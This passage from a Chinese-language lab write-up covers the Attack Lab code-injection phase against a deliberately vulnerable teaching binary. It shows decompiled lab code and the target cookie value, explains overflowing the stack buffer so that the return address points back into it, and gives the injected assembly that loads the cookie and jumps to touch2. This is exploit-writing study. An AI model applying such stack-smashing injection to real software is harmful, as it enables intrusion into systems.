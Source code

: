 ```
      }
      else
      {
        puts("FAILED");
      }
    }
    else
    {
      __printf_chk(1LL, "%s: Would have posted the following:\n");
      __printf_chk(1LL, "\tuser id\t%s\n");
      __printf_chk(1LL, "\tcourse\t%s\n");
      __printf_chk(1LL, "\tlab\t%s\n");
      __printf_chk(1LL, "\tresult\t%s\n");
    }
  }
}
```

cookie的值为

```
0x59b997fa
```



使用缓存区作为代码执行区域，缓存区溢出后，将返回地址写为缓存区首地址，然后执行缓存区所存的指令 ，我们应该覆盖原返回地址，写入攻击指令。 

可以通过rdi传参，然后在栈顶写入跳转到touch2的代码

写出脚本：

```
movq $0x59b997fa,%rdi
pushq $0x4017EC
retq
```

touch2的首地址为0x4017EC，栈的地址也是这个

![1618565873690](77.png)
